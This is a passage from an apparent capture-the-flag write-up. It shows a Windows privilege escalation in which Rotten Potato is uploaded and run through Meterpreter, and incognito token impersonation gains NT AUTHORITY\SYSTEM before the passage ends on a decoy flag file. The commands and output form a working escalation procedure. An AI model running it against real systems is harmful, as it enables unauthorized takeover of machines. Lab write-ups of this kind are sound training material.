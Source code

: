 SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
{% endhighlight %}

This means that we can use <a href="https://foxglovesecurity.com/20A16/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/">Rotten Potato</a> to gain a privileged account.<br>
we need to clone the repository at first.
{% highlight shell %}
root@kali:~# git clone https://github.com/foxglovesec/RottenPotato
Cloning into 'RottenPotato'...
remote: Enumerating objects: 426, done.
remote: Total 426 (delta 0), reused 0 (delta 0), pack-reused 426
Receiving objects: 100% (426/426), 2.56 MiB | 4.59 MiB/s, done.
Resolving deltas: 100% (128/128), done.
{% endhighlight %}

Then, achieve a token for SYSTEM user with the following procedure.
{% highlight shell %}
meterpreter > upload /root/RottenPotato/rottenpotato.exe .
[*] uploading  : /root/RottenPotato/rottenpotato.exe -> .
[*] uploaded   : /root/RottenPotato/rottenpotato.exe -> .\rottenpotato.exe

meterpreter > load incognito
Loading extension incognito...Success.

meterpreter > execute -Hc -f rottenpotato.exe
Process 784 created.
Channel 2 created.

meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
{% endhighlight %}

Generally, we have "root.txt" in the Desktop directory of user "Administrator".<br>
However, this time we see nothing but strange "hm.txt".
{% highlight shell %}
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  797   fil   2017-11-08 16:05:18 +0200  Windows 10 Update Assistant.lnk
100666/rw-rw-rw-  282   fil   2017-11-04 04:03:17 +0200  desktop.ini
100444/r--r--r--  36    fil   2017-11-04 04:57:21 +0200  hm.txt

meterpreter > cat hm.txt
The flag is elsewhere.  Look deeper.
{% endhighlight %}
